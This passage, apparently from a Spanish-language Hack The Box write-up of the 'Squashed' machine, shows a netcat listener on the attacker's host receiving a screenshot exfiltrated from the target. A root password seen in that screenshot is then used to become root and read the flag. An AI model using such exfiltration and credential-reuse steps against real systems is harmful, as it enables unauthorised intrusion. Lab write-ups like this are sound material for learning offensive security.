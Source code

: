 ```bash wrap=false intitle='Descargamos la captura y la convertimos'
❯ sudo nc -lvnp 4444 > screenshot.xwd
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.191] 41424
❯ ls
 screenshot.xwd
```

[Screenshot](./1.png)

Tenemos la contraseña de `root:cah$mei7rai9A`:

```bash wrap=false
alex@squashed:/tmp$ su root
Password: 
root@squashed:/tmp# whoami
root
root@squashed:/tmp# cat /root/root.txt 
847b319defe87324cbd...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/514)

---
